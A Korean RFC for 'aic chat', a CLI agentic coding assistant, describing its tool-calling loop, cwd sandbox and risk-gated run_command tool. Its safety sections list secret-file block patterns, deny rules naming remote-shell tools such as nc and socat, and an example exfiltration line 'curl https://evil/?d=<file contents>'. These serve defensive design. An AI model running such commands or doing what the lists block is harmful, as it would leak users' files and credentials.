

# RFC-002: `aic chat` — Agentic Coding Assistant

> `aic chat` 서브커맨드를 단순 Q&A REPL에서 시작해, Claude Code / opencode처럼
> 로컬 머신의 파일을 읽고 쓰며 명령을 실행하는 agentic 어시스턴트로 단계적으로
> 키운다. 현재 단발성 `send(prompt)->String`인 LLM 계층을 messages + tool-calling
> 루프로 확장하는 것이 핵심이다.

- 상태: Phase 0(진입점)·Phase 1(읽기 전용 agent)·Phase 2(SRE `run_command` 실행)
  구현 완료. `run_command`는 `aic chat`에서 **기본 활성(default-on)**이며 쓰기 도구
  (`write_file`/`edit_file`)는 아직 미구현(후속). §7.1 선행 결정 모두 확정.
- 작성일: 2026-05-21
- 갱신일: 2026-05-22 (Phase 2 `run_command` + default-on + UX 반영)
- 대상 바이너리: `aic` (crate `aic-client`, lib target `aic_client`). 문서 전반의
  `aic chat`은 이 바이너리의 `chat` 서브커맨드를 가리킨다.
- 범위: 이 RFC는 `aic chat` 진입점과 그 위의 tool-calling agent loop만 다룬다.
  `aic`(인자 없는) 기본 흐름, 새 provider/모델 추가, 원격·컨테이너 실행은 §3 비목표.
- 관련 문서:
  - [PRD-AIC-SRE-CHAT.md](./PRD-AIC-SRE-CHAT.md) — `aic chat` SRE Agent PRD(MVP 범위·UX·정책·GA Gate)
  - [RFC-001-CENTRALIZED-RECORD-STORE.md](./RFC-001-CENTRALIZED-RECORD-STORE.md)
  - [AIC-FEATURE-PROPOSALS.md](./AIC-FEATURE-PROPOSALS.md)
- 관련 코드:
  - `aic-client/src/main.rs` — `handle_chat`(capability 게이트 분기), `Commands::Chat`, `chat_run_command_enabled`
  - `aic-client/src/repl.rs` — `ReplSession`(비-tool 폴백) + 공유 헬퍼 + `LineReader`(reedline: slash 후보 패널/CJK/history)
  - `aic-client/src/llm_dispatcher.rs` — `send` / `send_streaming`(보존), 신규 `send_messages`·`supports_tool_calling`
  - `aic-client/src/agent/` — `types`(메시지/도구 wire), `sandbox`(cwd 샌드박스), `tools`(읽기 도구),
    `run_command`(SRE 실행), `gitignore`(.gitignore 매처), `ui`(banner/status/색상), `debug`,
    `session`(`AgentSession` agent loop)
  - `aic-client/src/project_context.rs` — `build_context_pack`, `append_to_prompt` (`--context`)
  - `aic-client/src/auto_brancher.rs` — exit code 기반 자동 분기 (미변경)
  - `aic-client/src/risk_guard.rs` — `RiskLevel{Safe,NeedsConfirm,Dangerous,Unknown}`, `classify` (Phase 2 재사용 예정)
  - `aic-client/src/redaction.rs` — `redact() -> (String, RedactionReport)` (`send_messages` 송신 전 적용)

## 1. 배경과 문제

현재 `aic`의 대화 기능은 두 갈래로 흩어져 있다.

- `aic "질문"` → 1회성 direct prompt 응답 (`handle_direct_prompt`).
- `aic` (인자 없음) → 직전 명령 `exit_code`로 자동 분기 (`AutoBrancher::determine_mode`).
  exit≠0이면 에러 분석, exit==0이면 REPL.

이 구조에는 두 가지 한계가 있다.

1. **대화형 진입이 암묵적이다.** 직전 명령이 실패하면(exit≠0) 무조건 에러 분석으로
   빠지므로, "그냥 LLM과 대화하고 싶다"는 의도를 명시할 방법이 없다.
2. **LLM 계층이 단발성이다.** `LlmDispatcher::send`는 매 호출마다
   `[{role: user, content: prompt}]` 하나만 보내고 텍스트 한 덩어리를 받는다.
   대화 히스토리도, tool/function calling도, 파일·명령 도구도 없다. 그래서
   "파일을 읽고 고쳐줘" 같은 agentic 작업이 원천적으로 불가능하다.

목표는 (1) 명시적 대화 진입점 `aic chat`을 만들고, (2) 그 위에 tool-calling 기반
agent loop를 얹어 로컬 파일 read/write/명령 실행까지 가능한 코딩 어시스턴트로
키우는 것이다.

## 2. 목표

### 2.1 Product

- `aic chat`으로 exit code와 무관하게 항상 대화형에 진입할 수 있다.
- `aic chat "질문"`은 1회 답변 후 종료, `aic chat`은 대화형 REPL로 진입한다.
- (Phase 1+) 대화 중 LLM이 프로젝트 파일을 읽어 맥락에 맞는 답을 한다.
- (Phase 2+) 사용자 승인 하에 파일을 수정하고 명령을 실행한다.

### 2.2 Engineering

- `LlmDispatcher`에 multi-turn messages + tool-calling을 지원하는 신규 경로를
  추가한다 (기존 `send`는 보존).
- **tool-calling wire format은 Phase 1 착수 전 확정할 결정이다** (§7.1). 현재
  `LlmDispatcher`는 설정의 `default_provider`(OpenAI 호환 — OpenAI/NVIDIA/Groq,
  Anthropic, CliBackend)를 따라 분기하며, 단일 고정 provider(`ai-mesh` 등)는
  코드에 존재하지 않는다. 1차 타깃은 OpenAI function-calling을 유력 후보로 보되,
  실제 채택은 사용자가 설정한 provider가 `tools` 파라미터를 지원하는지에 대한
  검증 게이트(§6, §7.1)를 통과해야 확정된다.
- tool-calling은 **OpenAI-compatible 경로(`send_openai`)에만** 추가한다. 기존
  `send_anthropic`·`send_cli`는 단발 텍스트 경로로 그대로 유지하며 도구를 노출하지
  않는다. 즉 Phase 1–2의 agent loop는 OpenAI function-calling wire format 단일을
  전제로 하고, provider 추상화는 도입하지 않는다. Anthropic native tool use / CLI
  backend 위임은 Phase 3에서 `ChatResponse`를 공통 인터페이스로 두고 어댑터로 흡수한다.
- tool registry / agent loop / 권한 게이트를 모듈로 분리해 테스트 가능하게 만든다.
- 기존 `risk_guard`, `redaction`을 재사용해 명령 위험도 분류와 시크릿 마스킹을
  agent 경로에 통합한다.

## 3. 비목표

- `auto_brancher.rs`의 기존 `aic`(인자 없는) 동작은 바꾸지 않는다. `aic chat`은
  별도 진입점이다.
- `--chat` 플래그는 도입하지 않는다 (서브커맨드 단일 — 4.1 결정 참고).
- 멀티 provider tool-calling 완전 동등성은 초기 범위 밖이다. **Phase 1–2는
  OpenAI-compat 경로만 tool을 지원**하고, Anthropic·CliBackend 경로는 도구 없는
  단발 응답만 제공한다 (Anthropic native tool use, CliBackend 위임 통합은 Phase 3).
- 새 LLM provider나 모델 추가는 이 RFC 범위가 아니다.
- 원격/샌드박스 컨테이너 실행은 다루지 않는다. 명령은 로컬에서 실행된다.

## 4. 제안 구조

### 4.1 인터페이스 결정 — 서브커맨드 단일

`aic chat`만 제공하고 `--chat` 플래그는 채택하지 않는다.

| 항목 | `aic chat` (채택) | `--chat` 플래그 (기각) |
|------|------------------|----------------------|
| 발견성 | `--help` 커맨드 목록 + 자체 `--help` | 플래그에 묻힘 |
| 관례 | git/cargo/docker식 mode=동사 | 전체 모드를 바꾸는 mode-flag 안티패턴 |
| 인자 처리 | `aic chat "질문"` positional 자연스러움 | trailing arg 충돌 처리 지저분 |

동작 정의:

| 호출 | 동작 | 상태 |
|------|------|------|
| `aic chat "질문"` | 1회성 답변 후 종료 (direct-prompt 경로) | ✅ 구현됨 |
| `aic chat` | 대화형 REPL. exit code 무관 항상 진입, 직전 record best-effort 첨부 | ✅ 구현됨 |
| `aic chat --dry-run [질문]` | 실제 호출 없이 모드·토큰·비용 미리보기 | ✅ 구현됨 |
| `aic chat --context "질문"` | project context pack 첨부 1회 답변 | ⚠️ 부분 구현 (아래) |

`--context` 플래그 상태: **플래그 자체는 이미 존재하며 동작한다.** 현재는
`project_context::build_context_pack()`가 만든 기본 context pack을
`append_to_prompt`로 1회성 프롬프트 끝에 덧붙인다. 다만 더 풍부한 의미
(파일 선택 휴리스틱 정교화, 토큰 예산 기반 자르기, agent loop와의 연동)은
**Phase 3** 범위다. 즉 "플래그 존재 + 기본 첨부 = 현재", "richer context
semantics = P3"로 명확히 구분한다 (코드 주석도 P3로 표기).

### 4.2 Agent loop (Phase 1+)



- max-iteration 가드로 무한 tool 호출을 차단한다.
- `first_turn`에 직전 명령 context를 주입하는 현재 `ReplSession` 동작은 유지한다.

### 4.3 LLM 계층 확장

신규 메시지 모델 (예시):

```rust
enum ChatMessage {
    System(String),
    User(String),
    Assistant { content: Option<String>, tool_calls: Vec<ToolCall> },
    Tool { call_id: String, content: String },
}
```

- `LlmDispatcher::send_messages(messages: &[ChatMessage], tools: &[ToolSpec])
  -> ChatResponse` 추가. `ChatResponse`는 텍스트 또는 `tool_calls`.
- OpenAI function-calling 직렬화/역직렬화 (`tools`, `tool_calls`, `tool` role).
- 기존 `send` / `send_streaming`은 그대로 둔다 (1회 답변 경로가 계속 사용).

### 4.4 Tool registry (Phase 1: 읽기 / Phase 2: 쓰기·실행)

| 도구 | Phase | 위험도 | 권한 |
|------|-------|--------|------|
| `read_file` | 1 | 낮음 | 자동 |
| `list_dir` | 1 | 낮음 | 자동 |
| `grep` | 1 | 낮음 | 자동 |
| `glob` | 1 | 낮음 | 자동 |
| `write_file` | 2 | 높음 | confirm |
| `edit_file` | 2 | 높음 | confirm (diff 미리보기) |
| `run_command` | 2 | 가변 | confirm + `risk_guard` 분류 |

각 도구 = JSON 스키마(LLM 노출용) + 실행 함수(Rust). 별도 모듈(`agent/tools.rs`)로
분리한다.

### 4.5 안전 레이어

권한·샌드박스 정책. **읽기 도구의 샌드박스(§4.5.1)는 Phase 1부터 적용**되며,
쓰기·실행 권한 게이트(§4.5.2)는 Phase 2 도구가 도입될 때 함께 적용된다.

#### 4.5.1 읽기 전용 도구 안전 정책 (Phase 1)

읽기 도구(`read_file`/`list_dir`/`grep`/`glob`)는 자동 허용이지만, 무제한이
아니다. 다음 규칙을 모든 읽기 도구에 공통 적용한다.

- **canonical cwd 샌드박스**: 접근 루트는 프로세스 cwd를 `canonicalize`(symlink
  해소 + `..` 정규화)한 절대 경로로 고정한다. 모든 입력 경로는 루트 기준으로
  resolve 후 다시 canonicalize하고, 결과가 루트 prefix로 시작하지 않으면 거부한다.
  비교는 정규화된 절대 경로끼리 수행해 `../`·중복 슬래시·대소문자 트릭을 막는다.
- **symlink / 경로 탈출 처리**: 심볼릭 링크는 **해소 후의 실제 경로**로 판정한다.
  링크가 루트 밖을 가리키면(예: `link -> /etc`) 거부한다. 경로 컴포넌트 중간의
  symlink, TOCTOU(검사 후 교체) 회피를 위해 open 직후 fd 기준 재확인을 권장한다.
- **hidden / VCS 메타데이터**: traversal 도구(`list_dir`/`grep`/`glob`)는 `.`로
  시작하는 모든 엔트리(`.git/` 포함)를 건너뛴다. `read_file`은 명시 경로면 비-secret
  dotfile도 읽을 수 있으나, `.git/` 내부 경로는 거부한다.
- **gitignore 존중**: `.gitignore`/`.git/info/exclude`에 매칭되는 경로는 기본
  제외한다(빌드 산출물·로컬 설정 노출 방지). 필요 시 명시적 opt-in 플래그로만 포함.
- **secrets 차단**: `.env*`, `*.pem`/`*.key`/`id_rsa*`, `*.p12`, 알려진 크리덴셜
  파일명은 read 대상에서 차단한다. 우회 경로로 읽히더라도 §4.5.3 redaction이
  2차 방어선이 된다.
- **large file 한도**: `read_file`은 파일을 읽은 뒤 **반환 내용을** 기본 64 KiB
  (요청 시 조정 가능, 하드 상한 1 MiB)로 truncate한다. 읽기 전 streaming/pre-read
  cap은 후속 작업이다. `grep`/`list_dir`/`glob`은 매치 수·엔트리 수·결과 수 상한을 둔다.
- **binary 파일**: NUL 바이트 감지 또는 비텍스트 MIME 추정 시 본문 대신
  "binary, N bytes" 메타만 반환한다(LLM에 바이너리 덤프 금지).

#### 4.5.2 쓰기·실행 권한 게이트 (Phase 2)

- **권한 모델**: 읽기 자동 허용, 쓰기·명령은 매번 confirm (y/n). Claude Code 기본과
  유사. (`--yes` / config 기반 자동 승인은 Phase 3 옵션.)
- **쓰기 샌드박스**: §4.5.1과 동일한 canonical cwd 경계를 쓰기에도 적용. 트리 밖
  쓰기는 거부. 기존 파일 덮어쓰기·삭제는 diff 미리보기 후 confirm.
- **명령 위험도**: `run_command`는 `risk_guard::classify`로 분류한다
  (`Safe`/`NeedsConfirm`/`Dangerous`/`Unknown`). `Dangerous`/`Unknown`은 강한 경고
  후 거부 또는 명시 확인, `NeedsConfirm`은 confirm, `Safe`만 비교적 가볍게 진행.

#### 4.5.3 redaction (Phase 1+, 전송 경로 전체)

- `send_messages`는 송신 직전 각 메시지 content에 `redaction::redact`를 적용해
  시크릿을 마스킹한다. (반환되는 `RedactionReport` 기반 audit 로깅은 후속 작업 —
  기존 단발 `send`/`send_streaming` 경로는 이미 로깅한다.)
- **redaction 한도**: redaction은 토큰/엔트로피 휴리스틱이라 100% 보장이 아니다.
  따라서 secrets 파일 차단(§4.5.1)을 1차 방어선으로 두고 redaction은 2차로 본다.
  과도하게 큰 출력은 redaction 전에 §4.5.1 large-file 규칙으로 먼저 잘라낸다.

## 5. 단계별 계획

각 Phase는 아래 **수용 기준(acceptance criteria)**을 모두 충족해야 다음 Phase로
넘어간다. 검증은 재현 가능한 명령으로 기술한다 (고정된 통과 개수는 stale해지므로
명시하지 않는다).

### Phase 0 — 진입점 (✅ 완료)

- `Commands::Chat { prompt, dry_run, context }` 서브커맨드 추가.
- `handle_chat`: 인자 있으면 1회 답변, 없으면 REPL 강제.
- `resolve_last_record_best_effort`: side-effect 없이 직전 record만 조회
  (history/REPL 폴백 미트리거).
- 도구 없음. `auto_brancher.rs` 미변경.

**수용 기준:**

- 빌드 통과: `cargo build -p aic-client`.
- lib 테스트 green: `cargo test -p aic-client --lib`.
- CLI smoke: `cargo run -p aic-client -- chat --dry-run "ping"`가 0으로 종료하고
  모드/토큰/비용 미리보기를 출력. `aic chat`이 `--help`에 노출됨.

### Phase 1 — 읽기 전용 agent (✅ 완료)

구현된 내용:

- `LlmDispatcher::send_messages(&[ChatMessage], &[ToolSpec]) -> ChatResponse` +
  OpenAI function-calling 직렬화/파싱 (OpenAI-compat 경로 한정). 송신 직전
  `redaction` 적용. 기존 `send`/`send_streaming`은 보존.
- 신규 `agent/` 모듈: `ChatMessage`/`ToolCall`/`ToolSpec`/`ChatResponse` 타입,
  `AgentSession` agent loop(max-iteration=8 안전 종료, tool 결과 64KB cap).
- 읽기 도구 4종 (`read_file`/`list_dir`/`grep`/`glob`) + registry. canonical
  cwd 샌드박스(§4.5.1) + gitignore 정책(§4.5.1) 적용. 쓰기·실행 도구 미등록.
- 신규 `AgentSession` 도입(결정 §7.1). `ReplSession`은 비-tool 폴백으로 유지하고
  렌더링·first-turn 컨텍스트 헬퍼만 공유.
- **provider capability 게이트 + graceful degrade**: `handle_chat`은
  `supports_tool_calling()`(OpenAI-compat/Groq)일 때만 `AgentSession`을 쓰고,
  아니면 `ReplSession`로 폴백. AgentSession 첫 턴에서 provider가 `tools`를
  거부하는 것으로 보이는 에러(4xx 클라이언트 에러/ConfigError)가 나면 그 세션을
  일반 대화 모드로 degrade(단발 `send()`)해 반복 실패를 막는다. 인증/429/5xx/
  네트워크 오류는 degrade하지 않고 그대로 surface.

**진입 게이트 (해소됨):**

- 코드 게이트는 provider type 기반 capability(`supports_tool_calling`)로 처리하고,
  런타임에 tools 거부 시 graceful degrade로 안전망을 둔다. 실 호출 프록시 검증은
  credential이 필요해 코드에 강제하지 않고, degrade 경로로 대체했다.

**수용 기준 (충족됨 — 재현 명령):**

- 빌드·lib 테스트 green: `cargo build -p aic-client && cargo test -p aic-client --lib`.
- tool 직렬화/역직렬화 단위 테스트 통과 (`tools`, `tool_calls`, `tool` role).
- **mock tool-call round trip**: 모의 응답이 `tool_calls`를 반환 → 도구 실행 →
  결과를 `tool` 메시지로 history에 추가 → 다음 turn 전달까지 1회 왕복 테스트 통과.
- **iteration cap**: agent loop는 `MAX_ITERATIONS` 상한으로 무한 tool 호출을 차단하고
  안전 종료한다(코드 상수로 보장). per-request timeout은 기존 dispatcher의 모델별
  timeout을 그대로 사용한다(전용 timeout 테스트는 두지 않음).
- **sandbox escape regression**: `..`/symlink 탈출/절대경로/root 밖 경로가 모두
  거부되는 회귀 테스트 통과 (§4.5.1).
- **gitignore enforcement**: ignore된 non-dot 파일이 read 거부 + traversal 제외되는
  테스트 통과 (§4.5.1).
- 읽기 도구 부작용 없음(쓰기·실행 미등록) 정적 보장.
- 기존 `send`/`send_streaming` 회귀 없음.

### Phase 2 — SRE `run_command` 실행 (✅ 완료, default-on) + 쓰기(후속)

구현된 내용 (`agent/run_command.rs`):

- **`run_command`** 도구 — `aic chat` 대화형 agent에서 **기본 활성**. 읽기 전용으로
  끄려면 `--no-run`/`--read-only`/`AIC_AGENT_NO_RUN=1` (게이트: `main.rs::chat_run_command_enabled`).
  레거시 `--sre`/`--allow-run`은 호환용 no-op으로 유지. AIC_DEBUG 로그상 `tools=5`
  (기본) / `tools=4`(읽기 전용).
- **위험도 정책(MVP, 고정)** — `risk_guard::classify` → **Safe**=자동 실행,
  **NeedsConfirm**=TTY confirm 필수(비-TTY 거부), **Dangerous/Unknown**=차단.
- **SRE shortcut normalizer** — 단순 의도를 bounded canonical로 변환: `ps`/`process`/
  `cpu` ⇒ `ps aux | head -n 20`, `disk` ⇒ `df -h`, `mem`/`memory`·`net`/`network`은
  OS별 bounded 명령(Linux `free -h`/`ss …`, 그 외 `ps … | head`/`netstat … | head`).
- **shell 제약(샌드박스 강제)** — `sh -c`를 쓰되 실행 전 validator로 차단:
  `$`(모든 expansion), glob/brace(`* ? [ ] { }`), 따옴표(`"`/`'`)·백슬래시,
  redirect(`>`/`<`), `;`·`&`·`||`·newline/CR·`~`·backtick, 절대경로 인자·`..` traversal,
  find/fd 위험 옵션(`-exec`/`-execdir`/`-ok`/`-delete` 등). `|`(pipe)는 허용하되 segment별
  argv 검증, 옵션 arity 인식(`head -n 20`의 `20`을 path로 오판하지 않음). 패턴/고급
  셸은 read-only `grep`/`glob` 도구 또는 후속 argv runner로 처리.
- **실행/안전** — cwd 샌드박스, env allowlist만 전달(API key/token 미전달),
  child를 process group leader로 두고 timeout(기본 15s/하드캡 30s) 시 그룹 전체 SIGKILL
  (descendant 포함), stdout/stderr는 bounded read(64KB 저장 cap + 드레인 상한)로
  unbounded alloc·join hang 방지, truncated 시 hint. 결과는 LLM 전달 전 `redaction::redact`,
  실행/차단/거부/timeout은 `audit::append` 기록.

**수용 기준 (충족됨):**

- 빌드·lib 테스트 green: `cargo test -p aic-client --lib agent && cargo test -p aic-client --lib risk_guard`.
- 위험도 분류(Dangerous/Unknown 차단, NeedsConfirm 비-TTY 거부, Safe 자동) 테스트 통과.
- shell 제약(절대경로/`~`/`..`/`&`/`$`/glob/quote/backslash/find 위험옵션) 차단 회귀 통과.
- timeout descendant kill·bounded output cap·shortcut normalize·SRE preface 테스트 통과.

**후속(미구현):** 쓰기 도구 `write_file`/`edit_file`(diff 미리보기 + confirm) + canonical
cwd 쓰기 샌드박스.

### Phase 3 — 폴리시

- 멀티 provider (Anthropic native tool use, CliBackend 위임 검토).
- tool 출력 스트리밍, `--yes`/config 자동 승인, 대화 세션 저장/복원.
- `--context`의 richer context semantics(파일 선택 휴리스틱, 토큰 예산 자르기,
  agent loop 연동, §4.1).

**수용 기준:**

- 빌드·lib 테스트 green.
- 각 신규 기능별 단위 테스트 + 회귀 없음.

## 6. 위험과 트레이드오프

- **provider의 tool-calling 미지원 가능성**: 설정된 OpenAI-compat provider/프록시가
  OpenAI `tools` 파라미터를 통과/지원하는지 Phase 1 착수 전 검증 필요(§7.1 blocking).
  미지원 시 provider별 분기 또는 Anthropic 경로 우선으로 재계획.
- **파일 쓰기/명령 실행의 본질적 위험**: 권한 게이트·샌드박스로 완화하되,
  Phase 2까지 미루어 위험 노출을 최소화한다.
- **복잡도 증가**: 단발 dispatcher 대비 상태(history)·loop·권한이 추가됨. 모듈
  분리와 테스트로 관리.

## 7. 미해결 질문

### 7.1 Phase 1 선행 결정 (✅ 확정됨)

| 결정 | 확정 결과 |
|------|-----------|
| 설정된 provider의 tool-calling 지원 여부 | provider type capability 게이트 + 런타임 graceful degrade로 해소(실 호출 강제 대신). |
| `ReplSession` 확장 vs 신규 `AgentSession` | **신규 `AgentSession`** 도입. `ReplSession`은 비-tool 폴백으로 유지, 헬퍼만 공유. |
| sandbox root = cwd vs project root | **canonical cwd 고정**(§4.5.1). |

### 7.2 이후 Phase에서 결정할 질문 (non-blocking)

| 질문 | 다룰 Phase | 비고 |
|------|-----------|------|
| 대화 히스토리 토큰 한도 관리 | Phase 1 단순 / Phase 3 정교화 | 단순 truncation부터, 이후 summarization |
| diff 미리보기 렌더링 (unified vs 컬러 inline) | Phase 2 | 비차단 |
| `--yes`/config 자동 승인 | Phase 3 | `RiskLevel::allows_auto_confirm` 재사용 |
| `--context` richer semantics | Phase 3 | §4.1 참고 |

## 8. 문서 후속 작업 (cross-doc follow-up)

각 Phase 머지 시 같은 PR에서 관련 문서를 동기화한다.

- **README.md / README.ko.md** (✅ Phase 1·2 반영): `aic chat` agent 모드, 읽기 도구,
  **SRE `run_command`(기본 활성)·`--no-run`/`--read-only` opt-out·shortcut·AIC_DEBUG**을
  Features·사용법에 추가함.
- **ARCHITECTURE.md** (✅ Phase 1·2 반영): 모듈 맵에 `agent/{run_command,debug}`,
  LLM 정책 표에 default-on·run_command 안전, Agent Layer에 안전 파이프라인·readline/history.
- **CHANGELOG** (✅ Phase 1·2 반영): `[Unreleased]` RFC-002 항목을 Phase 0~2로 확장.

## 9. 후속 작업 / 알려진 정리 항목 (follow-up)

### 9.0 P1 안전 강화/관측성 (✅ 반영)

- **DNS exfil 축소** — `dig @server`/`nslookup name server`/`host name server`처럼 custom
  resolver/explicit server를 쓰는 DNS 조회는 Safe 자동실행에서 제외하고 NeedsConfirm
  (`risk_guard` rule `dns.custom_resolver`). 기본 resolver 단순 조회(`dig name`)는 Safe 유지.
- **원격 네트워크 도구 명시 차단** — `ssh`/`scp`/`sftp`/`nc`/`ncat`/`netcat`/`socat`/`telnet`/
  `rsh`/`rlogin`을 Unknown 의존이 아니라 명시적 **Dangerous**(`net.remote_access`)로 분류.
- **correlation id** — `AgentSession`이 `run_id` + tool call별 `run_id.seq`(=`corr`)를 부여해
  AIC_DEBUG `tool_call`/`tool_result`, run_command card, audit JSON(`corr`), degrade audit(`run_id`)
  에서 동일 id로 추적. stdout(LLM 답변)에는 노출하지 않는다.
- **P2-1 audit 조회 UX(in-memory)** — agent REPL이 LLM 전송 전 slash 명령을 가로챈다:
  `/help`, `/last [N]`, `/raw [seq|corr]`, `/local [section]`(alias `/sys`·`/snapshot`),
  `/diagnose [--raw] <증상>`, `/explain-last [--raw] [seq|corr]`, `/incident [--raw] [name]`,
  `/doctor`, `/timeline [N]`, `/compare`, `/bundle [name]`(P0, LLM 미호출),
  `/triage [--run] [topic]`(Probe Catalog 기반 체크리스트+probe, `--run`=실행, LLM 미사용). tool 실행은
  `agent::tool_record`의 ring(상한 20)에 저장 시 항상 redact해 기록하고, slash 출력은 stderr 전용
  (history/LLM 미전송 → stdout 미오염; `/local` 분석 호출만 예외적으로 provider에 전송하되 history 미push).
  `/local`은 `agent::sysinfo`의 개별 bounded Safe probe를 `run_command` 프리미티브로 실행
  (timeout/cap/redaction/audit/corr 재사용)하고, **기본은 redacted 스냅샷을 tool 없는 stateless 단발
  `send`로 분석 요약**(프롬프트는 스냅샷을 데이터로만 취급, injection 방지) — 실패/timeout 시 raw fallback.
  `--raw`/`-r`·`AIC_LOCAL_NO_ANALYZE`로 분석 끔, `--analyze`/`-a`로 강제. 분석 출력은
  `agent::markdown::render_markdown`로 CLI 친화 markdown subset을 ANSI 구조 렌더(TTY)/구조만(NO_COLOR)/
  raw(파이프), prompt에 subset 제약(표/HTML 금지). 강조색 amber(`markdown::AMBER`), 분석 진행은 amber
  spinner(`spinner::start_styled`, provider 라벨, TTY-only, 성공/실패/timeout 정리).
  `/diagnose`는 `agent::diagnose`가 증상→결정적 카테고리(cpu/memory/disk/network/process/generic)→고정
  Safe probe를 골라 수집하고, 증상+증거를 동일 stateless 분석 경로로 가설→증거 인용→다음 안전 확인 진단한다
  (audit kind=`diagnose`, raw fallback, agentic 적응형은 P2). `/explain-last`는 ring의 최근/지정 tool
  기록을, `/incident`는 시스템 스냅샷+git read-only 증거(repo, 고정 Safe 상수; name은 라벨이라 셸 명령
  미포함)+최근 기록을 묶어 동일 stateless 분석 경로로 처리(audit kind=`explain-last`/`incident`).
  이 모든 probe는 `agent::probes` **Probe Catalog**(`ProbeSpec`: id/category/tags/OS별 command/max_lines)의
  고정 Safe 상수에서 나오며 `/local`·`/compare`도 이를 참조한다. `/triage [--run] [topic]`은 catalog 기반
  토픽 체크리스트+후보 probe를 렌더하고 `--run`이면 probe만 실행(LLM/history 미사용, topic은 라벨 전용). TTY는 **reedline 기반
  선택형 후보 패널**(`/` 입력 즉시 패널 열림, Tab으로도 열기/순환, ↑↓ 이동·선택행 highlight, Enter 선택,
  Esc 닫기, `/local <section>` 섹션; prefix + subsequence fuzzy; NO_COLOR/non-TTY 정책 준수).

### 9.1 P2로 보류

- **argv runner** — `sh -c` 대신 토큰 배열을 그대로 exec하는 runner를 도입해 패턴/glob/quoting
  제약을 완화(현재는 read-only `grep`/`glob` 도구로 우회). risk_guard safelist polish 포함.
- **외부 egress allowlist 실허용** — 현재는 모든 `curl`/`wget`이 NeedsConfirm. host allowlist로
  특정 목적지의 GET을 자동 허용하는 것은 P2(레드팀 후).
- **P2-2 persistent audit 조회** — audit 파일 tail/조회(`/audit tail` 등)는 보류(P2-1은 세션
  in-memory만).
- **slash true selectable panel (reedline migration)** (✅ 완료) — `LineReader`를 rustyline →
  **reedline**으로 이주(공개 API 불변). `ColumnarMenu`로 **`/` 입력 즉시 후보 패널**(`command 설명`)이
  열리고(Tab으로도 열기/순환)·↑↓ 이동(선택행 highlight)·Enter 선택·Esc 닫기, `/local <section>` 섹션 완성,
  prefix+fuzzy 매칭, NO_COLOR/non-TTY 정책 준수, FileBackedHistory 영속. rustyline 의존성 제거.
- **쓰기 도구** — `write_file`/`edit_file`(diff 미리보기 + confirm, cwd 쓰기 샌드박스) 미구현.
- **logs shortcut** — `vm_stat`/`journalctl` 등 safelist 미등록으로 normalizer 대신 SRE preface 위임.
- **운영 slash roadmap** — `/runbook`(승인형 절차 실행), `/fix-preview`(diff 미리보기+confirm), `/config`
  (설정 편집), watch daemon(상시 모니터링)은 보류. (`/doctor`·`/timeline`·`/compare`·`/bundle`는 P0 구현됨.)

### 9.2 GA Gate (GA 전 반드시 해소 — [PRD §13](./PRD-AIC-SRE-CHAT.md))

- **G1. tool-calling live probe** (✅ P0 반영) — `supports_tool_calling()`은 여전히
  provider_type 정적 판정이지만, (a) **opt-in live probe** `aic doctor --probe-tools`로 실제
  `send_messages` 1회를 보내 ok/unsupported/degraded/error/skip을 진단하고, (b) 런타임에 provider가
  tools를 거부하면 **degrade를 1회 명시 고지**(stderr/UI) + AIC_DEBUG `provider_tools=degraded` +
  audit `tool_calling_degraded`(provider/model/err_kind) 기록으로 보완. (자동 캐시 probe는 P1.)
- **G2. GET egress / exfil 정책** (✅ P0 반영) — `curl`/`wget`은 **GET 포함 모든 네트워크 요청을
  NeedsConfirm**으로 분류한다(GET=`http.egress`, POST/upload/output=`http.write`). Safe 자동실행이
  사라져 `curl https://evil/?d=<파일내용>` 같은 GET 쿼리스트링 exfil이 비-TTY에서 자동 거부된다.
  (egress host allowlist·레드팀은 P1 강화 항목.)
